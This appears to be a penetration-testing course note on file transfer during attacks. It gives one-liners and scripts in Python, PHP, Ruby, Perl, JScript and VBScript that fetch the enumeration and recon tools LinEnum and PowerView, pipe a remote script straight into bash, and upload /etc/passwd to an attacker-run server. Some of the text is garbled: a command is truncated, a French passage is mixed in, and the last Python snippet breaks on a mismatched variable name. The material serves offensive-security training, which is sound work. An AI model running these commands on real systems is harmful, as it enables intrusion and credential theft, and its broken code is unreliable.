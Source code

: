 # Transferring Files with Code

***

### <mark style="color:blue;">Python</mark>

<mark style="color:orange;">**Python 2 - Download**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
python2.7 -c 'import urllib; urllib.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

```
{% endcode %}

<mark style="color:orange;">**Python 3 - Download**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
ython3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
{% endcode %}

***

### <mark style="color:blue;">PHP</mark>

<mark style="color:orange;">**PHP Download with File\_get\_contents()**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
{% endcode %}

<mark style="color:orange;">**PHP Download with Fopen()**</mark>

{% code overflow="wrap" fullWidth="true" %}
```php
<?php
const BUFFER = 1024;

$fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb");
$flocal = fopen("LinEnum.sh", "wb");

while ($buffer = fread($fremote, BUFFER)) {
    fwrite($flocal, $buffer);
}

fclose($flocal);
fclose($fremote);
?>

```
{% endcode %}

***

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

<mark style="color:orange;">**PHP Download a File and Pipe it to Bash**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
{% endcode %}

Note: The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

***

### <mark style="color:blue;">Other Languages</mark>

***

<mark style="color:orange;">**Ruby - Download a File**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
{% endcode %}

***

<mark style="color:orange;">**Perl - Download a File**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
{% endcode %}

***

### <mark style="color:blue;">JavaScript</mark>

C’est du **JScript** (implémentation Microsoft d’ECMAScript) qui s’exécute dans le **Windows Script Host** (WSH) via `cscript.exe` ou `wscript.exe`. Voici l’essentiel en clair.

{% hint style="info" %}
**WSH = Windows Script Host**.\
C’est l’environnement d’exécution natif de Microsoft pour les scripts sur Windows. Il permet d’exécuter des scripts écrits en **JScript** (implémentation MS de JavaScript) ou en **VBScript** directement sur la machine, sans navigateur.
{% endhint %}

{% code fullWidth="true" %}
```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```
{% endcode %}

We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

<mark style="color:orange;">**Download a File Using JavaScript and cscript.exe**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
{% endcode %}

***

### <mark style="color:blue;">VBScript</mark>

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:

```powershell
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

<mark style="color:orange;">**Download a File Using VBScript and cscript.exe**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
{% endcode %}

***

### <mark style="color:blue;">Upload Operations using Python3</mark>

<mark style="color:orange;">**Starting the Python uploadserver Module**</mark>

```bash
python3 -m uploadserver 
```

<mark style="color:orange;">**Uploading a File Using a Python One-liner**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
{% endcode %}

Let's divide this one-liner into multiple lines to understand each piece better.

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```
